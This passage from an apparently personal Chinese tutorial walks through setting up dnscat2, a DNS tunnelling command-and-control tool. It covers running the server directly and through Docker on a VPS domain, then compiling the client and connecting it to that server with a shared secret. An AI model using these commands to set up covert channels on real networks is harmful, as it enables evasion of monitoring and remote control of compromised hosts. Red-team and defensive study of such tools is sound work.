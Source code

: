    安装完成，启动服务端

   ```bash
   ruby dnscat2.rb vp.****.top -e open -c password --no-cache
   ```
   
   启动不好，老是报错，绝望了。
   
   所以又想了一个方法，在kali上安装，然后在VPS之间做隧道。
   
   绝了，kali也有环境问题。
   
   使用docker把。。。。md绝了。
   
   ```bash
   yum install docker
   syatemctl start docker
   
   docker pull arno0x0x/dnscat2
   
   docker run --rm -ti --privileged -p 53:53/udp -e DOMAIN_NAME="vp.xxxx.top" --name dnscat2 arno0x0x/dnscat2
   
   ## 直连模式
   docker run --rm -ti --privileged -p 53:53/udp -e DOMAIN_NAME="localhost" --name dnscat2 arno0x0x/dnscat2
   ```
   
   跑起来以后，自动就开始服务端运行了.
   
   [![rLewbn.md.png](https://s3.ax1x.com/2020/12/30/rLewbn.md.png)](https://imgchr.com/i/rLewbn)
   
3. 安装 client

   dnscat2 客户端使用 c 语言写的，因此需要编译。在windwos中使用 VS 编译， linux 运行 `make install` 即可进行编译。

   ```bash
   git clone https://github.com/iagox86/dnscat2.git
   cd dnscat2/client/
   make
   ```

   测试是否能与服务端通信。

   ```bash
   ./dnscat --ping vp.xxxx.top
   ```

   看到如图效果，说明可以连通，

   [![rLuxaR.md.png](https://s3.ax1x.com/2020/12/30/rLuxaR.md.png)](https://imgchr.com/i/rLuxaR)

   ```
   ./dnscat --secret=5c15541cff86dff2fd7cd2aadb0a2be9 vp.xxxx.top
   
   ## 直连模式
   ./dnscat --dns server=(IP),port=53 --secret=5c15541cff86dff2fd7cd2aadb0a2be9
   ```

   然后Server就可以看到有上线了，`New window created: 1`
